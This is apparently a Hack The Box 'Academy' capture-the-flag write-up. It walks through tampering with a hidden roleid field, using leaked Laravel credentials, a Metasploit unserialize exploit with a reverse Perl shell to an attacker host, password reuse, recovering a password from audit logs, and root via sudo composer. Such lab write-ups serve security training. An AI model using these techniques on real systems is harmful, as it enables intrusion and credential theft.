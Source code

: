 # Academy
## nmap -T3 -A -p- -o academy.nmap 10.10.10.215

[Nmap port scan][1]

## gobuster dir -u academy.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o academy-dir.txt -t 50
[dirbuster output][2]


## Exploting web app

Looking into the source of the registration form
```html
 <form class="login_form" method="POST" autocomplete="off">
            <br/>
            <br/>
            <img src="images/logo.png" class="center" width="130" height="130">
            <br/>
            <br/>
            <table>
                <tr>
                    <td class="form_text" align="left">&nbsp;&nbsp;&nbsp;Username</td>
                <tr/>
                <tr>
                    <td align="right"><input class="input" size="40" type="text" id="uid" name="uid" /></td>
                </tr>
                <tr>
                    <td class="form_text" align="left"><br/>&nbsp;&nbsp;&nbsp;Password</td>
                <tr/>
                <tr>
                    <td align="right"><input class="input" size="40" type="password" id="password" name="password" /></td>
                </tr>
                <tr>
                    <td class="form_text" align="left"><br/>&nbsp;&nbsp;&nbsp;Repeat Password</td>
                <tr/>
                <tr>
                    <td align="right"><input class="input" size="40" type="password" id="confirm" name="confirm" /></td>
                </tr>
                <input type="hidden" value="0" name="roleid" />
            </table>
            <br/><br/>
            <input type="submit" class="button" value="Register"/> 
            </p>
        </form>
```

we can find an hidden field ***roleid***, using a proxy like burpsuite we can set this value to 1 so it give us
an admin account that we can use to login into admin.php

Inside the admin page we can see that there is some problem not fixed with ***dev-staging-01.academy.htb***
Here we can find a laravel log dump in which we can find the database creds 

```raw
DB_PORT "3306"

DB_DATABASE "homestead"

DB_USERNAME "homestead"

DB_PASSWORD "secret"
```

Plus there is a redis server with no password on port 6379

Looking at nmap seems that the port of mysql server is 33060 maybe this is the problem with laravel console (?).

Using metasploit with exploit/unix/http/laravel_token_unserialize_exec with this options:

```raw
options 

Module options (exploit/unix/http/laravel_token_unserialize_exec):

   Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     academy.htb                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.158     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

we get a shell as www-data launch `python3 -c "import pty;pty.spawn('/bin/bash')"` to get a bash tty and `export TERM='xterm'`.

Going into `/var/www/html/academy` there is an interesting file called `.env` that is used by laravel to define some options

```raw
cat .env
cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
SESSION_LIFETIME=120
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
```
In this file there is a mysql password for account dev. 
Account for this machine are:

`21y4d  ch4p  cry0l1t3  egre55  g0blin  mrb3n`

we can try to login into one of the by using this ***mySup3rP4s5w0rd!!***
After trying to list the files of the home directory seems the ***cry0l1t3*** has the user flag -> ***cry0l1t3:mySup3rP4s5w0rd!!*** does the trick

launch an http server to download linpeas inside the machine: `python3 -m http.server`

After linpeas runs the log show: 
```
[+] Checking for TTY (sudo/su) passwords in audit logs
/var/log/audit/audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

Converting from HEX to ASCII the data field we obtain: `mrb3n_Ac@d3my!` -> ***mrb3n:mrb3n_Ac@d3my!***

## mrb3n

This user seems can run sudo with this capabilities: 

```raw
sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

Escalate via [sudo + composer][3] give us the root 

![htbbadge](https://www.hackthebox.eu/badge/image/272787)
![achievement](https://www.hackthebox.eu/storage/achievements/31eb8125f335c5928a941f3ea595514c.png)

[//]: #links
[1]: academy.nmap
[2]: academy-dir.txt
[3]: https://gtfobins.github.io/gtfobins/composer/
